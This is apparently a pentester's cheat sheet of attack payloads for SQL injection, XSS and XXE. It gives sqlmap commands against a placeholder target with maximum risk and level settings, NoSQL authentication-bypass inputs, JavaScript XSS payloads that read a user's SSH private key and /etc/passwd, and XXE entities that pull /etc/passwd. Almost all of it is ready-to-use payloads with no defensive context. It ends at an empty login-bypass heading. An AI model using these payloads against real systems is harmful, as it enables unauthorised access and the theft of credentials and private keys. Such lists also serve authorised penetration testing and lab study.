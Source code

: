 #### Sql-injection

```bash
#POST
sqlmap.py -r search-test.txt

#GET
sqlmap -u "http://$IP/index.php?id=1" --dbms=mysql

#FULL ;)
sqlmap -u 'http://$IP:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch

# NoSQL
' || 'a'=='a

#in URL
username[$ne]=0xtz&password[$ne]=0xtz  # :joy: i'm never use this user name

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}}

```

[sql-injection-authentication-bypass-cheat-sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

#### XSS
```javascript
<script>alert("XSS")</script>
<script>alert(1)</script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText.fontsize(1)) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

# XXE

XML entry that reads server, Doctype, change to entity "System "file:///etc/passwd""

#Instead POST:

<?xml version="1.0" ?>
    <!DOCTYPE thp [
        <!ELEMENT thp ANY>
        <!ENTITY book "Universe">
    ]>
    <thp>hack  &book;</thp>


#Malicious XML:

<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY>
<!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack
%26book%3B</thp>

```
#### Sql-login Bypass

